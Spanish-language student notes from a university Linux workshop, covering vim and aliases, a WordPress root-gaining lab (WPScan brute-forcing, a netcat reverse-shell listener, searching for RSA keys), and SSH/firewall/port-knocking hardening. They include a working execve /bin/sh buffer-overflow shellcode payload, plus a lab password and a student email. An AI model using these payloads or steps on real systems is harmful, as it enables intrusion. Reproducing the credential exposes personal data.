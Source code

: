 ## LINUX TALLER

# VIM
:wq write qui
:q! quit and force

# XARGAS
ejecuta algo como argumento final un output

# ALIAS
alias loqueyoquiera="ls"    cerrando la sessión pierdes el alias
para hacerlo fijo meter en /.bashrc el alias

## TALLER HACKING(Ganar root en una maquina con una pagina web que utiliza Wordpress)

# WPscan
utilzado para sacar información sobre los usuarios que se utilizan en la pagina basada en wordpress
también se usa como brute-force para paginas web basadas en wordpress

# Google dorking
buscador más profundo de información
site: sitio "keywoards"

# Netcad
Utilizado para abrir puertos en la maquina a utilizar como reverse shell
netcad -nvlp "puerto puesto" https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


# SSH
es posible utilizar la llave RSA para poder entrar con ssh utilizando el flag -i

buscar en un directorio llaves RSA existentes y utilizables:
find. -type f- -exec sh -c 'echo "Analizando archivo: $1"; ssh-keygen -l -f $1' _ {} \;

# DATOS TAREA OPCIONAL(COMPLETADA)
contraseña maquina wido T4ll3r_H4ck1nG_2024!
correo para el premio: sermomo3@alumni.uv.es

run $(python2 -c 'print "A"*88')


run $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


/home/wido/pruebas_seguridad/script $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


## TALLER HARDENING
Asegurar servidores y servicios.

# FIREWALL
iptables -L -nv (muestra las reglas)
preservar logs de las posibles conexiones
LAMP(Linux Apache MySQL PHP) para servidor web
VESTA
Nestia es un gestor instalable open source para gestionar el servidor

# Security SSH
Cambio de puerto sobre el 1000
Bloquear acceso de root utilizando SSH (permitrootlogin no)
Autenticazión de password (password authentication)
Archivo de config de ssh /etc/ssh/sshd_config

# PORT KNOCKING
Configuras firewalls que te permite conectar a diferentes puertos para luego conseguir abilitar la regla de abertura de SSH. En pocas palabras, tocas ciertos puertos configurados en el dispositivo y así puedes abrir y cerrar puertos.
knockd es el servicio utilizable(/etc/knockd.conf y /etc/default/knockd)
START_KNCOKD =1 para abilitar el knocking
KNOCKD_OPTS="-i eth0" para cambiar la interfaz a utilizar y luego abilitar con systemctl start knockd
knock -d 300 10.5.0.10(IP) 2024 2000 9898 para nockear y luego hacer ssh
y para cerrar knock -d 300 %IP% 9898 2000 2024

# OSSEC(HIDS)